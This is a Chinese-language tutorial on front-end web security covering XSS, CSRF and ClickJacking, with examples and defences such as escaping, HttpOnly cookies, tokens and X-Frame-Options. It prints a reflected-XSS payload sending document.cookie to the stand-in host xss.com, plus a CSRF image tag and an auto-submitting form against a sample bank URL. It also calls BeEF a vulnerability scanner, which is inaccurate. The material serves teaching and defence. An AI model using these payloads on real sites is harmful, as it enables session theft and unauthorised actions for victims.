

要点：XSS、CSRF 和 ClickJacking。
随着 Web 应用越来越广泛，各种 Web 安全问题也日益凸显，时常看到网上消息说，某网站用户账号信息遭泄露或盗取。
Web 安全问题很容易成为前端工程师的盲点，一方面浏览器的各种安全策略给前端工程师造就了一种安全的假象；另一方面在通常的理解中，黑客更多的是通过系统漏洞和病毒程序来入侵服务端，让人容易形成安全问题只与服务端关系密切的错觉。这一课时我们就来分析前端相关的 3 个安全问题，从而让你开发的 Web 应用更安全。
一、跨站脚本
跨站脚本（Cross Site Scripting，XSS）
理论上跨站脚本的首字母缩写应该为“CSS”，但这样容易和层叠样式表（Cascading Style Sheets，CSS）的缩写混淆，所以缩写为 XSS。它主要是指攻击者可以在页面中插入恶意脚本代码，当受害者访问这些页面时，浏览器会解析并执行这些恶意代码，从而达到窃取用户身份/钓鱼/传播恶意代码等行为。
XSS 攻击示例
一般我们把 XSS 分为反射型、存储型、DOM 型 3 种类型。
反射型 XSS 也叫非持久型 XSS，是指攻击者将恶意代码拼写在 URL 中提交给服务端，服务端返回的内容，也带上了这段 XSS 代码，最后导致浏览器执行了这段恶意代码。
下面通过一个简单的例子加以说明。
服务端采用 express.js 并使用 ejs 进行服务端渲染，服务端接收到地址栏 search 参数时，会将其传入到模板的 search 变量中，并生成 HTML。
1 | <!-- ejs 模板 --> |
比如有攻击者想获取用户 cookie，编写了下面一段 JavaScript 代码。通过动态创建一个 script 标签，然后把当前 cookie 发送给目标地址 xss.com。
1 | <script> |
那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie。
1 | ?search=<script>var s=document.createElement('script');s.src=`xss.com?cookie=${document.cookie}`;document.head.append(s);</script> |
当然这种赤裸裸的发送很容易引起用户警觉，所以一般会转为短网址并且包装成一些带有诱导性文字的超链接，引诱用户点击访问，一旦用户点击就不知不觉地向攻击者发送了自己的 cookie。
存储型和反射型相比破坏性更大，因为存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，那么其他用户访问这个个人主页的时候都会执行这段恶意代码。
DOM 型 XSS 可以看作一种特殊的反射型 XSS，它也是一种非持久型 XSS，不过相对于反射型 XSS 而言它不需要经过服务端。比如在上面的例子中，如果把解析 URL 参数 search 的逻辑放在前端页面进行，那么攻击类型就属于 DOM 型。
1 | <script> |
XSS 防御手段
参数校验。对于 HTTP 请求的 URL 参数和请求体 payload 的数据进行校验，比如我们接收的数据是用户年龄，那么在后端，需要判断一下数据是否是 Number，对于不符合校验规则的数据及时抛出错误。
字符转义。对于一些特殊符号，比如“<”“>”“&”“"”“'”“/”，我们需要对其进行转义，后端接收这些代码时候的转义存储，前端在显示的时候，再把它们转成原来的字符串进行显示。
对于用户输入的字符串内容，不要使用 eval、new Function 等动态执行字符串的方法，也不要将这些字符串通过 innerHTML、outerHTML、document.write() 方式直接写到 HTML 中。对于非客户端 cookie，比如保存用户凭证的 session，将其设置为 http only，避免前端访问 cookie。
二、跨站请求伪造
跨站请求伪造（Cross-site Request Forgery，CSRF/XSRF）
CSRF 攻击就是在受害者毫不知情的情况下以受害者名义伪造请求发送给受攻击站点，从而在并未授权的情况下执行在权限保护之下的操作。和 XSS 攻击方式相比，CSRF 并不需要直接获取用户信息，只需要“借用”用户的登录信息相关操作即可，隐蔽性更强。
CSRF 攻击示例
下面以一个示例来说明 CSRF 的攻击原理。
比如，用户 A 在银行有一笔存款，通过对银行的网站发送请求：http://bank.com/withdraw?amount=100&to=B。
可以让 A 把 100 的存款转到 B 的账号下。通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，验证成功后代码用户 A 已经成功登录。
攻击者 C 就可以通过替换 URL 中的参数把钱转入自己的账户中，但这个请求必须由 A 发出。所以他先自己做一个网站，在网站中放入如下代码：
1 | <img src="http://bank.com/withdraw?amount=100&to=C" /> |
然后通过广告等方式诱使 A 来访问他的网站，当 A 访问该网站时，浏览器就会附带上 cookie 发出的转账请求。大多数情况下，该请求可能会失败，因为他要求 A 的认证信息。但是，如果 A 当时恰巧刚访问这个网站不久，他的浏览器与网站之间的 session 尚未过期，浏览器的 cookie 中含有 A 的认证信息。那么此时这个请求就会成功，钱将从用户 A 的账号转移到攻击者 C 的账号，而 A 对此毫不知情。
即使日后 A 发现账户钱少了，去银行查询转账记录，也只能发现确实有一个来自他本人的合法请求转移了资金，找不到被攻击的痕迹。
当然真实场景下不会通过 GET 请求去提交操作，而是采用 POST 请求。但即时如此，攻击者也可以在页面中嵌入隐藏表单并通过脚本来触发操作。
比如像下面的代码，创建了两个表单字段，分别为 amount 和 to，然后自动执行 JavaScript 脚本提交表单。
1 | <form action="http://bank.com/withdraw" method="POST""> |
CSRF 防御手段
通过前面的例子可以看到 CSRF 大多来自第三方网站，所以浏览器会在请求头带上 Referer 字段，服务器可以判断 Referer 来拒绝不受信任的源发出的请求。
由于攻击者在大多数情况下利用 cookie 来通过验证，所以可以在请求地址中添加其他头部字段，比如 token，服务端只有接收到正确的 token 后才响应正确的内容。
攻击者是在不知情的情况下，自动发起恶意的请求，那么可以通过用户确认来防御攻击，比如加入图形或短信验证码让用户输入，确认该操作是用户本人发起的。但是加入验证码会影响用户的体验，所以验证码不能频繁使用。
三、点击劫持
点击劫持（ClickJacking ）
攻击者创建一个网页利用 iframe 包含目标网站，然后通过设置透明度等方式隐藏目标网站，使用户无法察觉目标网站的存在，并且把它遮罩在网页上。在网页中诱导用户点击特定的按钮，而这个按钮的位置和目标网站的某个按钮重合，当用户点击网页上的按钮时，实际上是点击目标网站的按钮。
ClickJacking 示例
下面通过两个简单的页面来进行演示说明。alert 页面上有一个按钮，点击时调用 alert() 函数。
1 | <!-- alert.html --> |
clickjacking 页面上有一个没有绑定点击事件的按钮，同时在 firame 中引入 alert 页面，通过设置它的样式，让 alert 页面透明显示，并将其中的按钮与 clickjacking 页面的按钮位置重叠。
1 | <!-- clickjacking.html --> |
当用户想点击 clickjacking 页面按钮时，实际上点击的却是 alert 页面按钮。

ClickJacking 防御
通过例子可以看到 ClickJacking 的攻击原理主要是利用了 iframe，所以可以通过设置响应头部字段 X-Frame-Options HTTP 来告诉浏览器允许哪些域名引用当前页面。X-Frame-Options 的值有 3 个，具体如下。
- DENY：表示页面不允许在 iframe 中引用，即便是在相同域名的页面中嵌套也不允许，GitHub 首页响应头部使用的就是这个值。
- SAMEORIGIN：表示该页面可以在相同域名页面的 iframe 中引用，知乎网站首页响应头部使用的就是这个值。
- ALLOW-FROM [URL]：表示该页面可以在指定来源的 iframe 中引用。
四、总结
本课时主要介绍了 3 个最常见的前端安全问题，分别是 XSS、CSRF 和 ClickJacking。
XSS 攻击分为存储性、反射型、DOM 型，其中存储型危害较大，会存储到数据库中，导致每次加载页面的时候都会执行恶意代码；反射型则是利用服务端直接拼接字符串模板的原理进行攻击，而 DOM 型攻击更灵活，不需要向服务端发送请求即可实现。
CSRF 攻击原理是“借用”用户身份进行恶意操作，服务端可以通过 Referer 字段来判断请求发起方的源是否可信，从而拒绝不安全的域发出的请求。
ClickJacking 攻击方式则是通过 iframe 引用页面，采取遮罩的手段来让用户在不知情的情况下进行某些操作。所以可以通过设置响应头部字段 X-Frame-Options 来允许是否被其他页面引用到 iframe 中。
除了上面的防御手段，我们还可以用漏洞扫描工具（比如 BeEF）对网站进行测试，提前发现安全漏洞。
Tips: Please indicate the source and original author when reprinting or quoting this article.